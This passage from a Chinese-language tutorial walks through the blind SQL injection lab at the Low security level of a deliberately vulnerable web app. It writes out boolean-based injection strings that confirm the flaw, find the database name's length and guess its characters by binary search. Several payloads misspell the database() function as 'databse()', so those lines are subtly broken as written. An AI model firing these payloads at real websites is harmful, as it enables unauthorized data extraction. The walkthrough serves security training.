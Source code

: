 可以看到，Low级别的代码对参数id没有做任何检查、过滤，存在明显的SQL注入漏洞，同时SQL语句查询返回的结果只有两种，User ID exists in the database.与User ID is MISSING from the database.，因此这里是SQL盲注漏洞。

**漏洞利用**
首先演示基于布尔的盲注：

1.判断是否存在注入，注入是字符型还是数字型
输入1，显示相应用户存在：

![image]({path}/61.png)

输入1’ and 1=1 #，显示存在：

![image]({path}/62.png)

输入1’ and '1'='2' #，显示不存在：

![image]({path}/63.png)

说明存在字符型的SQL盲注。

2.猜解当前数据库名
想要猜解数据库名，首先要猜解数据库名的长度，然后挨个猜解字符。


```
输入1’ and length(database())=1 #，显示不存在；

输入1’ and length(database())=2 #，显示不存在；

输入1’ and length(database())=3 #，显示不存在；

输入1’ and length(database())=4 #，显示存在：
```



说明数据库名长度为4。

下面采用二分法猜解数据库名。


```
输入1’ and ascii(substr(databse(),1,1))>97 #，显示存在，说明数据库名的第一个字符的ascii值大于97（小写字母a的ascii值）；

输入1’ and ascii(substr(databse(),1,1))<122 #，显示存在，说明数据库名的第一个字符的ascii值小于122（小写字母z的ascii值）；

输入1’ and ascii(substr(databse(),1,1))<109 #，显示存在，说明数据库名的第一个字符的ascii值小于109（小写字母m的ascii值）；

输入1’ and ascii(substr(databse(),1,1))<103 #，显示存在，说明数据库名的第一个字符的ascii值小于103（小写字母g的ascii值）；

输入1’ and ascii(substr(databse(),1,1))<100 #，显示不存在，说明数据库名的第一个字符的ascii值不小于100（小写字母d的ascii值）；

输入1’ and ascii(substr(databse(),1,1))>100 #，显示不存在，说明数据库名的第一个字符的ascii值不大于100（小写字母d的ascii值），所以数据库名的第一个字符的ascii值为100，即小写字母d。

…
```
